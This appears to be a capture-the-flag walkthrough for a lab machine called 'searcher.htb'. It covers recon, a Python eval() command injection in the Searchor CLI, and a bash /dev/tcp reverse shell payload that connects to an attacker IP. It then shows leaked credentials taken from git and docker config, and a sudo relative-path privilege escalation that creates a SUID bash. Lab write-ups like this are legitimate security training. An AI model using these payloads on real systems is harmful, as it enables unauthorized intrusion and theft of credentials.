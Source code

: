 ## 🛰️ Recon

[Easy](Easy)
### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.208
nmap -p 22,80 -sCV 10.10.11.208
```

### HTTP Service
- [Apache/2.4.52](HTTP) + Flask (Werkzeug/2.1.2 Python/3.10.6).
- Redirects to: `http://searcher.htb`

### Virtual Host
Add to `/etc/hosts`:
```text
10.10.11.208 searcher.htb
```

### Directory Fuzzing
```bash
feroxbuster -u http://searcher.htb
```

Found:
- `/search`

---

## 💥 Exploitation (RCE via Python `eval()`)

### Vulnerable App
- Uses [Searchor](https://github.com/searchor/Searchor) CLI (v2.4.0).
- Eval-based CLI argument parsing vulnerable to command injection.

### Injection PoC
```bash
searchor search GitHub "' + __import__('os').popen('id').read() + '"
```

### Reverse Shell Payload (Injected via Burp)
```python
' + __import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() + '
```

### Listener
```bash
nc -lnvp 443
```

---

## 🧠 Enumeration (as `svc`)

### Home Directory
```bash
cat ~/.gitconfig  # reveals username "cody"
```

### Web App Path
```bash
cd /var/www/app
ls -la
cat .git/config
```

- Remote repo: `http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/...`

---

## 🔐 Credentials Discovered
- `cody / jh1usoih2bkjaspwe92` (from .git/config)
- `gitea / yuiu1hoiu4i5ho1uh` (from docker inspect ENV)

---

## 🧬 Gitea

Add to `/etc/hosts`:
```text
10.10.11.208 gitea.searcher.htb
```

- Login as `cody` with found creds.
- Also test `administrator / yuiu1hoiu4i5ho1uh` → ✅
- Found private repo: `scripts`
- Contains: `system-checkup.py`

---

## 🔼 Privilege Escalation

### `sudo -l`
```bash
sudo -l
```
```text
User svc may run the following commands on busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

### Script Behavior
- `full-checkup` runs `./full-checkup.sh` from CWD.

### Exploit
```bash
echo -e '#!/bin/bash\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
chmod +x full-checkup.sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

### Run Bash as Root
```bash
/tmp/0xdf -p
```

---

## 🏁 Flags

```bash
cat /home/svc/user.txt
cat /root/root.txt
```